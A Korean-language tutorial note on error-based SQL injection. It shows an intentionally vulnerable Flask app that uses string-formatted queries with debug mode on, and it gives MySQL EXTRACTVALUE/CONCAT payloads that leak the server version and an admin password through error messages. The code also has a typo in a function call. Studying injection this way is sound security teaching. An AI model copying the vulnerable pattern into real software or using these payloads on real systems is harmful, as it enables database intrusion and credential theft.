 # Error & Time based SQL Injection

* 쿼리 결과를 애플리케이션의 기능에서 출력하지 않는 경우에 사용할 수 있는 SQL Injection 공격 형태
    - **공격 성공 여부를 어떻게 판단하느냐**에 따라 명칭이 구분됨

<br/>

## Error based SQL Injection
임의로 에러를 발생시켜 데이터베이스 및 운영체제의 정보를 획득하는 공격 기법
* 애플리케이션에서 발생하는 에러를 이용해 공격하려고 한다면 **런타임 에러**(Runtime Error, *쿼리가 실행되고 나서 발생하는 에러*)가 필요함
    - 문법 에러(Syntax Error)와 같이 DBMS에서 쿼리가 실행되기 전에 발생하는 에러는 불가능함
* 공격자는 오류(에러) 메시지를 통해 공격에 필요한 다양한 정보를 수집하고 원하는 데이터를 획득할 수 있음
    - 에러 메시지와 같이 쿼리 실행 결과를 직접 노출하지는 않지만, **중요한 정보를 노출하는 방법들이 존재함**

<br/>

### Error based SQL Injection 예시
```python
from flask import Flask, request # Flask 프레임워크 사용
import pymysql

app = Flask(__name__)

def getConnection():
	return pymysql.connect(host='localhost', user='dream', password='hack', db='dreamhack', charset='utf8')

@app.route('/', methods=['GET'])
def index():
	username = request.args.get('username') # 이용자가 전달한 username 인자값을 가져옴
	sql = "SELECT username FROM users WHERE username='%s'" %username # 이용자의 입력값 username이 별다른 검사 없이 SQL 쿼리에 포함 → SQL Injection 취약점이 발생함

	conn = getConnetion()
	curs = conn.cursor(pymysql.cursors.DictCursor)
	curs.execute(sql)
	rows = curs.fetchall()
	conn.close()

    # SQL 실행 결과를 출력하는 코드가 존재하지 않고 쿼리 실행 결과만을 판단함
	if (rows):
		return "True"
	else:
		return "False"

app.run(host='0.0.0.0', port=8000, debug=True) # 디버그 모드 활성화(debug=True)
```
* Error based SQL Injection 공격 방법
    - Flask 프레임워크로 개발된 애플리케이션에서 디버그 모드를 활성화하면 코드에서 오류가 발생했을 때 발생 원인을 출력함
        + username에 ```admin 1'``` 쿼리를 삽입했을 경우
            ```sql
            # 생성되는 쿼리 → 실행 결과 문법 에러(Syntax Error) 발생
            SELECT username FROM users WHERE username='admin 1''
            ```

* Error based SQL Injection 공격 코드
    - ```EXTRACTVALUE``` 함수: 첫 번째 인자로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출하는 함수
        + 두 번째 인자로 올바른 XPATH 식을 전달한 경우 쿼리가 정상적으로 실행됨
            ```sql
            SELECT EXTRACTVALUE('<a>test</a><b>abcd</b>', '/a'); # 결과: test
            ```
        + 두 번째 인자로 올바르지 않은 XPATH 식을 전달한 경우 에러 메시지에 삽입된 식의 결과가 출력됨
            ```sql
            SELECT EXTRACTVALUE(1, ":abcd");
            # 결과: ERROR 1105 (HY000): XPATH syntax error: ':abcd'
            ```
            - 올바르지 않은 XPATH 식에 중요한 정보를 추출할 수 있는 식을 입력한다면 공격자는 중요 정보를 획득할 수 있음
    - MySQL 환경에서 Error based SQL Injection으로 공격할 때 많이 사용하는 쿼리와 실행 결과
        ```sql
        SELECT EXTRACTVALUE(1, CONCAT(0x3a, version()));
        # 결과: ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
        ```
        + XPATH식에 삽입된 ```version``` 함수가 실행되면서 에러 메시지에 운영 체제에 대한 정보(```'0ubuntu0.16.04.1'```)가 포함되어 있음 → 공격자는 이 정보를 이용해 1-day 또는 0-day 공격을 통해 서버를 장악할 수 있음
        + ```CONCAT``` 함수: 둘 이상의 문자열을 입력한 순서대로 합쳐서 반환해주는 함수
            - 사용 형식: ```CONCAT(문자열1, 문자열2[, 문자열3, ...])```
    - ```EXTRACTVALUE``` 함수를 응용하여 데이터베이스의 정보를 추출하는 쿼리와 실행 결과
        ```sql
        SELECT EXTRACTVALUE(1, CONCAT(0x3a, (SELECT password FROM users WHERE username='admin')))
        # 결과: ERROR 1105 (HY000): XPATH syntax error: ':This_is_admin_PASSW@rd'
        ```
        + XPATH식에 삽입된 서브 쿼리가 실행되면서 에러 메시지에 users 테이블의 admin 사용자의 비밀번호가 포함되어 있음 → 공격자는 서브 쿼리를 사용해 임의 테이블의 데이터를 획득할 수 있음

<br/><br/>
